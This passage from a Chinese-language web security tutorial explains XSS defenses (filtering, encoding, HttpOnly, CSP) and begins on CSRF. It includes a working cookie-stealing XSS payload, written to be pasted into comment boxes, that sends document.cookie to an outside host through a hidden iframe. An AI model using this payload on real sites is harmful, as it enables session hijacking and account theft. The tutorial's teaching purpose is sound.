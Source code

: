 `JavaScript` 写一个请求跨站的脚本就是XSS了，如下：

```javascript
<!-- jsay.org 个人小站还没开始运行哦！ -->
<!-- 将此段代码放在评论/留言框中提交 -->
<script type="text/javascript">
  (function(window, document) {
      // 构造泄露信息用的 URL
      var cookies = document.cookie;
      var xssURIBase = "http://www.jsay.org/xss/";
      var xssURI = xssURIBase + window.encodeURI(cookies);
      // 建立隐藏 iframe 用于通讯
      var hideFrame = document.createElement("iframe");
      hideFrame.height = 0;
      hideFrame.width = 0;
      hideFrame.style.display = "none";
      hideFrame.src = xssURI;
      // 开工
      document.body.appendChild(hideFrame);
  })(window, document);
</script>
```

### XSS防御

**思路：对输入(和URL参数)进行过滤，对输出进行编码。也就是对提交的所有内容进行过滤，对url中的参数进行过滤，过滤掉会导致脚本执行的相关内容；然后对动态输出到页面的内容进行html编码，使脚本无法在浏览器中执行。虽然对输入过滤可以被绕过，但是也还是会拦截很大一部分的XSS攻击。**

1. 对输入、URL参数等（如：`<>`、`/` 、`&`、`'`、`"` ）进行转义、**过滤**，仅接受指定长度范围内并符合我们期望格式的的内容提交，阻止或者忽略除此外的其他任何数据；
2. 输出数据之前对潜在的威胁的字符进行**编码**、转义；
3. 转义HTML(效果不怎样)
4. XSS 一般利用js脚步读取用户浏览器中的Cookie，而如果在服务器端对 Cookie 设置了HttpOnly 属性，那么js脚本就不能读取到cookie，但是浏览器还是能够正常使用cookie。
5. 设置黑、白名单；
6. [Content Security Policy](https://link.juejin.im?target=http%3A%2F%2Fwww.ruanyifeng.com%2Fblog%2F2016%2F09%2Fcsp.html) 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。它的实现和执行全部由浏览器完成，开发者只需提供配置。
7. 验证码

## 二、CSRF攻击

::: tip CSRF（Cross-site request forgery）跨站请求伪造：

也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF或者XSRF，是一种对网站的恶意利用。尽管听起来像跨站脚本（[XSS](https://link.juejin.im?target=https%3A%2F%2Fbaike.baidu.com%2Fitem%2FXSS)），但它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装成受信任用户的请求来利用受信任的网站。与[XSS](https://link.juejin.im?target=https%3A%2F%2Fbaike.baidu.com%2Fitem%2FXSS)攻击相比，CSRF攻击往往不大流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比[XSS](https://link.juejin.im?target=https%3A%2F%2Fbaike.baidu.com%2Fitem%2FXSS)更具危险性。

:::

**本质原因：CSRF攻击是源于Web的隐式身份验证机制。Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。CSRF攻击的一般是由服务端解决。**

CSRF攻击条件：

- 登录受信任网站A，并在本地生成Cookie。
